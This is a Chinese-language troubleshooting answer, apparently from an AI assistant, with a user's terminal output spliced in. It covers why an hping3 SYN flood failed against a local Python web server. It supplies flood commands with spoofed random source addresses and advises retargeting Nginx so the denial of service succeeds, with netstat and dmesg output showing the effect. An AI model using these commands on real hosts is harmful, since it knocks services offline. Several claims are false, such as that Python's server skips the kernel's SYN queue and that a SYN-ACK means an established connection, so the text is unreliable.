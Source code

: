 SYN 洪泛攻击无效的情况，可能有以下几个原因：

### 1. **目标 IP 地址问题**
   - 确认 `192.168.31.109` 确实是运行 Python Web 服务的机器 IP
   - **检查方法**：
     ```bash
     ifconfig  # Linux/Mac
     ipconfig  # Windows
     ```
     确保你攻击的是正确的本地 IP（而不是 `127.0.0.1` 或公网 IP）

### 2. **Python 的 `http.server` 不处理半连接**
   - Python 内置的 `http.server` 是单线程的简单实现，可能没有完整实现 TCP 协议栈
   - **关键现象**：它不会像 Nginx/Apache 那样维护半连接队列（SYN_RECV 状态）
   - **验证方法**：
     ```bash
     netstat -ant | grep SYN_RECV  # 攻击期间应该看不到大量半连接
     ```

### 3. **hping3 命令需要调整**
   - 添加 `--rand-source` 伪造随机源 IP（否则容易被系统丢弃）
   - 完整命令：
     ```bash
     sudo hping3 -S 192.168.31.109 -p 8000 --flood --rand-source
     ```

### 4. **系统默认丢弃无效 SYN 包**
   - 现代操作系统对 SYN 洪水有基础防护
   - **检查系统日志**：
     ```bash
     dmesg | grep -i drop  # 查看是否内核丢弃了包
     ```

---

### 正确测试方法（推荐）
如果想看到明显的攻击效果：

1. **改用专业的 Web 服务器**：
   ```bash
   # 安装 Nginx
   sudo apt install nginx
   sudo systemctl start nginx
   ```

2. **攻击 Nginx 默认端口（80）**：
   ```bash
   sudo hping3 -S 192.168.31.109 -p 80 --flood --rand-source

   (base) shaofu@shaofu:~$ sudo hping3 -S 127.0.0.1 -p 80 --rand-source -V
   using lo, addr: 127.0.0.1, MTU: 65536
   HPING 127.0.0.1 (lo 127.0.0.1): S set, 40 headers + 0 data bytes
   len=44 ip=127.0.0.1 ttl=64 DF id=0 tos=0 iplen=44
   sport=80 flags=SA seq=2 win=65495 rtt=1.3 ms
   seq=712013983 ack=582001061 sum=c06a urp=0

   len=44 ip=127.0.0.1 ttl=64 DF id=0 tos=0 iplen=44
   sport=80 flags=SA seq=109 win=65495 rtt=0.4 ms
   seq=1752536412 ack=1709013321 sum=9f3b urp=0

   len=44 ip=127.0.0.1 ttl=64 DF id=0 tos=0 iplen=44
   sport=80 flags=SA seq=110 win=65495 rtt=1.1 ms
   seq=3806565164 ack=977969450 sum=c2cd urp=0

   (base) shaofu@shaofu:~$ sudo hping3 -S 127.0.0.1 -p 80 --rand-source -V
   using lo, addr: 127.0.0.1, MTU: 65536
   HPING 127.0.0.1 (lo 127.0.0.1): S set, 40 headers + 0 data bytes
   len=44 ip=127.0.0.1 ttl=64 DF id=0 tos=0 iplen=44
   sport=80 flags=SA seq=2 win=65495 rtt=1.3 ms
   seq=712013983 ack=582001061 sum=c06a urp=0

   len=44 ip=127.0.0.1 ttl=64 DF id=0 tos=0 iplen=44
   sport=80 flags=SA seq=109 win=65495 rtt=0.4 ms
   seq=1752536412 ack=1709013321 sum=9f3b urp=0

   从 hping3 的输出来看，宿主机确实响应了 SYN-ACK（flags=SA），说明连接可能已进入 ESTABLISHED 状态，而非 SYN_RECV。

   分析输出：
   sport=8001 flags=SA seq=3 win=65535 rtt=4.2 ms
   SA 表示 SYN-ACK，说明宿主机已成功响应 SYN 请求。
   如果 SYN Cookies 启用，系统会立即发送 SYN-ACK，但不会将连接保留在队列中，因此 SYN_RECV 状态不会持久存在。
   ```

3. **观察效果**：
   - 在另一个终端运行：
     ```bash
     watch -n 1 "netstat -ant | grep SYN_RECV | wc -l"
     ```
   - 正常应看到半连接数快速上升
   - 用浏览器访问服务会变慢或超时

```bash
Every 1.0s: netstat -ant | grep SYN_RECV | wc -l                                                                               shaofu: Wed Apr 23 17:14:23 2025

385
```

```bash
Every 1.0s: dmesg | grep -i drop                                                                                               shaofu: Wed Apr 23 17:13:44 2025

[    0.386481] drop_monitor: Initializing network drop monitor service
[2719904.431123] ptrace attach of "/opt/google/chrome/chrome --type=utility --utility-sub-type=audio.mojom.AudioService --lang=zh-CN --service-sandbox-type=non
e --string-annotations --crashpad-handler-pid=3868 --enable-crash-reporter=, --change-stack-guard-on-fork=enable --shared-files=v8_context_snapshot_data:100 --
field-trial-handle=3,i,1570744617303147934,13470989366382690612,262144 --disable-features=EyeDropper --variations-seed-version=20250311-050106.243000"[4394] wa
s attempted by "strace -cfp 4394"[162563]
[3650070.207137] nf_conntrack: nf_conntrack: table full, dropping packet
[3650087.688089] nf_conntrack: nf_conntrack: table full, dropping packet
[3650148.807428] nf_conntrack: nf_conntrack: table full, dropping packet
[3656451.305789] nf_conntrack: nf_conntrack: table full, dropping packet
[3656456.795358] nf_conntrack: nf_conntrack: table full, dropping packet
[3656456.842436] nf_conntrack: nf_conntrack: table full, dropping packet
[3656456.897237] nf_conntrack: nf_conntrack: table full, dropping packet
[3656481.719768] nf_conntrack: nf_conntrack: table full, dropping packet
[3656684.102074] nf_conntrack: nf_conntrack: table full, dropping packet
[3656706.485324] nf_conntrack: nf_conntrack: table full, dropping packet
[3656706.767540] nf_conntrack: nf_conntrack: table full, dropping packet
[3656746.830342] nf_conntrack: nf_conntrack: table full, dropping packet
```

---

### 为什么 Python 服务"免疫"？
Python 的 `http.server` 本质是一个**单线程演示工具**，它的 TCP 处理非常简单：
1. 收到 SYN 后直接回复 SYN-ACK
2. 如果没有后续 ACK，系统内核会自动清理
3. 不维护复杂的连接状态表

而 Nginx/Apache 这类专业服务器会严格维护 TCP 状态机，因此更容易受到 SYN 洪水影响。